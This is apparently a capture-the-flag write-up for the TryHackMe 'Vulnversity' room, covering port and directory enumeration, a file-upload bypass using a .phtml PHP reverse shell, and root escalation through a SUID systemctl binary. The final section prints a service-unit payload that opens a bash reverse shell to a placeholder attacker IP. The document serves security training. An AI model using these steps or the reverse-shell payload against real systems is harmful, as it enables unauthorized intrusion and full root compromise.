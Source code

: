 # Vulnversity
 Challenge link: https://tryhackme.com/room/vulnversity 
## IP
10.10.198.229
## Enumeration
### NMAP
#### Command used:
<code>$ nmap -sC -sV -Pn 10.10.198.229</code>
#### Results
<pre>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 13:07 EDT
Nmap scan report for 10.10.198.229
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-04-22T13:08:09-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-time: 
|   date: 2022-04-22T17:08:10
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
</pre>

### GoBuster
#### Command used:
<code>$ gobuster dir -u http://10.10.198.229:3333/ -w /usr/share/wordlists/dirb/common.txt </code>
#### Results

<pre>
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.229:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/22 13:43:20 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.198.229:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.198.229:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.198.229:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                      
<b>/internal             (Status: 301) [Size: 324] [--> http://10.10.198.229:3333/internal/]</b>
/js                   (Status: 301) [Size: 318] [--> http://10.10.198.229:3333/js/]      
/server-status        (Status: 403) [Size: 303]                                          
                                                                                         
===============================================================
2022/04/22 13:44:28 Finished
===============================================================
</pre>

## Ports Open
<pre>
21
22
139
445
3128
3333
</pre>

## Exploitation
### BurpSuite 
<u> found a post request at <i>/internal/</i> </u>

Multiple file types seem to be blocked.
Only '.phtml' seems to go through.

#### Triggering payload
"""
After a succesful upload of a php reverse shell masked with the required file type (aka .phtml) , we need to trigger the payload somehow.
we can either use dirb / go buster in  recursive modes or manually poke around discovering <u>http://ip:3333/internal/uploads/payload_name.phtml</u>
<b>Voila! a reverse shell on our listeners!</b>

On enumerating the directories we can see the username is located at <code>/home/</code> which is the expected location. checking the dir we can see "user.txt" which contains the flag.
"""

#### SUID perm. check
##### Command used
<code>find / -type f -perm -4000 2>/dev/null</code>
##### Results
<pre>
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
</pre>

### LinPeas
#### Intresting Observations
<pre>
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034    # Tough will not use this as this was not the targeted way.
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled                   
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Jul 31  2019 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf     

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid           
---sniped---   
<b>-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/systemctl</b>
---sniped---   
</pre>

 
### Final Stretch (exploit Systemctl)
#### Payload
<pre>
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/9091 0>&1'

[Install]
WantedBy=multi-user.target
</pre>

After the files to a location that's writable (say /tmp) save it by a name say "name.service"

then executed:
##### On target (Vuln machine)
<code>/bin/systemctl enable name.service</code>
##### On Kali
<code>nc -nlvp 9091</code>
##### On target (Vuln machine)
<code>/bin/systemctl start name</code>

<b>Voila! we have root's flag!</b>



